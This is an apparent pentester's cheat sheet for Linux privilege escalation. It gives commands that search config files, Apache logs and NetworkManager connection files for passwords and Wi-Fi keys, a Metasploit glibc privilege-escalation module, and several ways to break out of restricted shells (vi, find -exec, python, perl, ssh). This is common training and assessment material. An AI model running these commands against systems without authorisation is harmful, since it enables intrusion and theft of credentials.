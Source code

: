 ### Check permissions

Check possible programs we are allowed to run with sudo

```bash
sudo -l
```

### Search for Passwords

In configuration- and logfiles:

```bash
grep -r password /etc/*.conf 2> /dev/null
cat /Var/log/apache/access.log | grep -E "^user|^pass" # check apache log
cat /etc/NetworkManager/system-connections/* |grep -E “^id|^psk” # PSK NW-manager
```

### Scripts to work with

- `linenum` / `linpeas` 
- metasploit `use post/linux/gather/enum_configs` and other modules

### Specific exploits

- `$origin` expansion privilege escalation (glibc <2.11.3 && 2.12.x - 2.12.1)
```bash
msf> use exploit/linux/local/glibc_origin_expansion_priv_esc
```

- [dockerdevil](https://github.com/pyperanger/dockerevil)

### Restricted shells

- restricted shells and ways to break out
	- `rbash` may be one
	- `chroot` jail

1. Determine you're in a restriced shell

```bash
cd  # try calling some binaries
> `rbash: cd: restricted`

echo $ENV
> SHELL=/bin/rbash # indicator
> PATH=/var/chroot/bin # indicator
```

2. Escape the shell 

```bash
# via VIM as possibility
vi /tmp/file
> :!sh # enter tp confirm -> the resulting shell should be outside your confinment

# via find
find /home/mike -name bla -exec /bin/sh \; # requires the bla file to exist in order to work and spawn a shell

# via python / perl
python -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";' 

# via ssh form another system
ssh caged_user@target -t "/bin/bash" # try calling a shell via ssh before the restriction with rbash is applied
```
